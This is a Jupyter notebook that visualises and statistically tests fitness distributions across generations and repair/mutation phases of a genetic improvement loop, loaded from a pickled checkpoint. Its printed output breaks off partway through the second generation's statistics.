# GI Results Visualization, Quantitative Analysis, and Inferential Statistics 

Notebook to display population statistics and fitness distribution for each generation of the GI loop

### Imports and Settings

In [1]:
%load_ext autoreload
%autoreload 2

# imports
import os, sys
import pickle

# set the project root directory (~/projects/GIMC)
project_root = os.path.expanduser("~/projects/GIMC")

# add project root to sys.path
sys.path.append(project_root)

import numpy as np
import matplotlib.pyplot as plt

from config import DATA_PATH

# add project 

checkpoint_path = os.path.join(DATA_PATH, 'GI', '20260308-01_com_checkpoint.pkl')

### Read and verify checkpoint

In [2]:
with open(checkpoint_path, 'rb') as f:
    checkpoint = pickle.load(f)

    print(f"Checkpoint loaded successfully with {len(checkpoint)} generations")

Checkpoint loaded successfully with 5 generations


### Show generational distribution changes











In [3]:
# Visualization settings
bins = 20
alpha = 1
fixed_x_axis = (0,1)  # False for auto-scaling, True for global min/max, (0, 1) for fixed 0-1 range

# Calculate x-axis limits based on settings
if fixed_x_axis == (0, 1):
    x_limits = (0, 1)
elif fixed_x_axis:
    # Calculate global min/max across all generations
    all_fitness_scores = []
    for generation in checkpoint:
        all_fitness_scores.extend([genome.get_candidate().get_fitness() for genome in generation["population"]])
        all_fitness_scores.extend([genome.get_candidate().get_fitness() for genome in generation["repaired_population"]])
        all_fitness_scores.extend([genome.get_candidate().get_fitness() for genome in generation["mutated_population"]])
        all_fitness_scores.extend([genome.get_candidate().get_fitness() for genome in generation["repaired_mutants"]])
    global_min = min(all_fitness_scores) if all_fitness_scores else 0.0
    global_max = max(all_fitness_scores) if all_fitness_scores else 1.0
    x_limits = (global_min, global_max)
else:
    x_limits = None

# for each generation, load results for all phases (population, repaired_population, mutated_population, repaired_mutants)
for gen_idx, generation in enumerate(checkpoint):
    population = generation["population"]
    repaired_population = generation["repaired_population"]
    mutated_population = generation["mutated_population"]
    repaired_mutants = generation["repaired_mutants"]
    
    # Create a figure with 1 row and 4 columns
    fig, axes = plt.subplots(1, 4, figsize=(20, 5))
    fig.suptitle(f"Generation {gen_idx + 1} - Fitness Distribution", fontsize=16, fontweight='bold')

    # Population
    fitness_scores = [genome.get_candidate().get_fitness() for genome in population]
    mean_fitness = np.mean(fitness_scores) if fitness_scores else 0.0
    max_fitness = np.max(fitness_scores) if fitness_scores else 0.0
    min_fitness = np.min(fitness_scores) if fitness_scores else 0.0
    stdev_fitness = np.std(fitness_scores) if fitness_scores else 0.0
    n = len(fitness_scores)
    axes[0].hist(fitness_scores, bins=bins, alpha=alpha)
    axes[0].set_title("Population")
    axes[0].set_xlabel("Fitness Score")
    axes[0].set_ylabel("Frequency")
    if x_limits:
        axes[0].set_xlim(x_limits)
    axes[0].text(0.95, 0.95, f'n={n}\nμ={mean_fitness:.3f}\nσ={stdev_fitness:.3f}\nmax={max_fitness:.3f}\nmin={min_fitness:.3f}',
                 transform=axes[0].transAxes, fontsize=9, verticalalignment='top', horizontalalignment='right',
                 bbox=dict(boxstyle='round', facecolor='wheat', alpha=0.5))

    # Repaired Population
    fitness_scores = [genome.get_candidate().get_fitness() for genome in repaired_population]
    mean_fitness = np.mean(fitness_scores) if fitness_scores else 0.0
    max_fitness = np.max(fitness_scores) if fitness_scores else 0.0
    min_fitness = np.min(fitness_scores) if fitness_scores else 0.0
    stdev_fitness = np.std(fitness_scores) if fitness_scores else 0.0
    n = len(fitness_scores)
    axes[1].hist(fitness_scores, bins=bins, alpha=alpha)
    axes[1].set_title("Repaired Population")
    axes[1].set_xlabel("Fitness Score")
    axes[1].set_ylabel("Frequency")
    if x_limits:
        axes[1].set_xlim(x_limits)
    axes[1].text(0.95, 0.95, f'n={n}\nμ={mean_fitness:.3f}\nσ={stdev_fitness:.3f}\nmax={max_fitness:.3f}\nmin={min_fitness:.3f}',
                 transform=axes[1].transAxes, fontsize=9, verticalalignment='top', horizontalalignment='right',
                 bbox=dict(boxstyle='round', facecolor='wheat', alpha=0.5))

    # Mutated Population
    fitness_scores = [genome.get_candidate().get_fitness() for genome in mutated_population]
    mean_fitness = np.mean(fitness_scores) if fitness_scores else 0.0
    max_fitness = np.max(fitness_scores) if fitness_scores else 0.0
    min_fitness = np.min(fitness_scores) if fitness_scores else 0.0
    stdev_fitness = np.std(fitness_scores) if fitness_scores else 0.0
    n = len(fitness_scores)
    axes[2].hist(fitness_scores, bins=bins, alpha=alpha)
    axes[2].set_title("Mutated Population")
    axes[2].set_xlabel("Fitness Score")
    axes[2].set_ylabel("Frequency")
    if x_limits:
        axes[2].set_xlim(x_limits)
    axes[2].text(0.95, 0.95, f'n={n}\nμ={mean_fitness:.3f}\nσ={stdev_fitness:.3f}\nmax={max_fitness:.3f}\nmin={min_fitness:.3f}',
                 transform=axes[2].transAxes, fontsize=9, verticalalignment='top', horizontalalignment='right',
                 bbox=dict(boxstyle='round', facecolor='wheat', alpha=0.5))

    # Repaired Mutants
    fitness_scores = [genome.get_candidate().get_fitness() for genome in repaired_mutants]
    mean_fitness = np.mean(fitness_scores) if fitness_scores else 0.0
    max_fitness = np.max(fitness_scores) if fitness_scores else 0.0
    min_fitness = np.min(fitness_scores) if fitness_scores else 0.0
    stdev_fitness = np.std(fitness_scores) if fitness_scores else 0.0
    n = len(fitness_scores)
    axes[3].hist(fitness_scores, bins=bins, alpha=alpha)
    axes[3].set_title("Repaired Mutants")
    axes[3].set_xlabel("Fitness Score")
    axes[3].set_ylabel("Frequency")
    if x_limits:
        axes[3].set_xlim(x_limits)
    axes[3].text(0.95, 0.95, f'n={n}\nμ={mean_fitness:.3f}\nσ={stdev_fitness:.3f}\nmax={max_fitness:.3f}\nmin={min_fitness:.3f}',
                 transform=axes[3].transAxes, fontsize=9, verticalalignment='top', horizontalalignment='right',
                 bbox=dict(boxstyle='round', facecolor='wheat', alpha=0.5))

    plt.tight_layout()
    plt.show()


### Graph fitness scores across generations



In [4]:
# create a 2d line plot of mean, min, and max fitness scores across generations - for population, repaired_population, mutated_population, and repaired_mutants on single row plot 
# Create a figure with 1 row and 4 columns for all four populations
fig, axes = plt.subplots(1, 4, figsize=(20, 5))
fig.suptitle('Fitness Scores Across Generations', fontsize=16, fontweight='bold')

# Population types to plot
population_types = ['population', 'repaired_population', 'mutated_population', 'repaired_mutants']
titles = ['Population', 'Repaired Population', 'Mutated Population', 'Repaired Mutants']

for idx, (pop_type, title) in enumerate(zip(population_types, titles)):
    mean_scores = []
    min_scores = []
    max_scores = []
    
    for generation in checkpoint:
        pop = generation[pop_type]
        fitness_scores = [genome.get_candidate().get_fitness() for genome in pop]
        mean_scores.append(np.mean(fitness_scores) if fitness_scores else 0.0)
        min_scores.append(np.min(fitness_scores) if fitness_scores else 0.0)
        max_scores.append(np.max(fitness_scores) if fitness_scores else 0.0)
    
    axes[idx].plot(mean_scores, label='Mean Fitness')
    axes[idx].plot(min_scores, label='Min Fitness')
    axes[idx].plot(max_scores, label='Max Fitness')
    axes[idx].set_xlabel('Generation')
    axes[idx].set_ylabel('Fitness Score')
    axes[idx].set_title(title)
    axes[idx].legend()

plt.tight_layout()
plt.show()




In [5]:
# combine all four phases into a single line - treat each phase a generation
all_phases = []
for generation in checkpoint:
    all_phases.extend([generation["population"], generation["repaired_population"], generation["mutated_population"], generation["repaired_mutants"]])

mean_fitness_scores = []
min_fitness_scores = []
max_fitness_scores = []

for phase in all_phases:
    fitness_scores = [genome.get_candidate().get_fitness() for genome in phase]
    mean_fitness_scores.append(np.mean(fitness_scores) if fitness_scores else 0.0)
    min_fitness_scores.append(np.min(fitness_scores) if fitness_scores else 0.0)
    max_fitness_scores.append(np.max(fitness_scores) if fitness_scores else 0.0)

plt.figure(figsize=(10, 6))
plt.plot(mean_fitness_scores, label='Mean Fitness')
plt.plot(min_fitness_scores, label='Min Fitness')
plt.plot(max_fitness_scores, label='Max Fitness')
plt.xlabel('Generation Sub-Phases')
plt.ylabel('Fitness Score')
plt.title('Fitness Scores Across Generations - All Phases Treated as Sub-Generations')
plt.legend()
plt.show()

### Statistical impact of each phase on the previous

PER-GENERATION STATISTICAL ANALYSIS

GENERATION 1

Repair Operation:
  Before: μ=0.1184, σ=0.1018, n=20
  After:  μ=0.1191, σ=0.1009, n=20
  Change: Δμ=+0.0008 (+0.64%)
  Test: Mann-Whitney U, p=0.7514 ns
  Effect Size: Cohen's d=0.0073 (negligible)
  Significant: NO

Mutation Operation:
  Before: μ=0.1191, σ=0.1009, n=20
  After:  μ=0.0667, σ=0.0885, n=20
  Change: Δμ=-0.0524 (-43.97%)
  Test: Mann-Whitney U, p=0.0854 ns
  Effect Size: Cohen's d=-0.5378 (medium)
  Significant: NO

Repair Mutants Operation:
  Before: μ=0.0667, σ=0.0885, n=20
  After:  μ=0.1191, σ=0.1009, n=20
  Change: Δμ=+0.0524 (+78.48%)
  Test: Mann-Whitney U, p=0.0854 ns
  Effect Size: Cohen's d=0.5378 (medium)
  Significant: NO

Full Loop:
  Before: μ=0.1184, σ=0.1018, n=20
  After:  μ=0.1191, σ=0.1009, n=20
  Change: Δμ=+0.0008 (+0.64%)
  Test: Mann-Whitney U, p=0.7514 ns
  Effect Size: Cohen's d=0.0073 (negligible)
  Significant: NO

GENERATION 2

Repair Operation:
  Before: μ=0.1097, σ=0.0910, n=40
  After:  μ=

